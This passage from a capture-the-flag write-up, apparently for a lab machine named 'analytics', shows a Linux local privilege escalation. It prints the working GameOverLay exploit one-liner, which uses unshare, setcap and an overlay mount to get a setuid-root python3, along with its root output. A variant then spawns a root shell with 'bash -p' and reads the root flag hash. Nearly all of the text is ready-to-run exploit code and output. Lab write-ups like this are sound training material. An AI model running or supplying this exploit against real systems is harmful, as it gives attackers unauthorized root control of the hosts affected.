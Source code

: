 
[https://github.com/luanoliveira350/GameOverlayFS](https://github.com/luanoliveira350/GameOverlayFS){:target="_blank"}

if it works, the id command will be executed as root

```bash 
metalytics@analytics:/tmp/.alter$ cat c.sh 
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```

```bash 
metalytics@analytics:/tmp/.alter$ ./c.sh 
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```


**It worked, so now just we need to update the script to get a root shell and get the flag**

```bash 
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -p")'
```

```bash 
metalytics@analytics:/tmp/.alter$ ./c.sh 
root@analytics:/tmp/.alter# whoami
root
root@analytics:/tmp/.alter# cat /root/root.txt 
19bf1d2e39bdb1db8e085fea83d70e42
```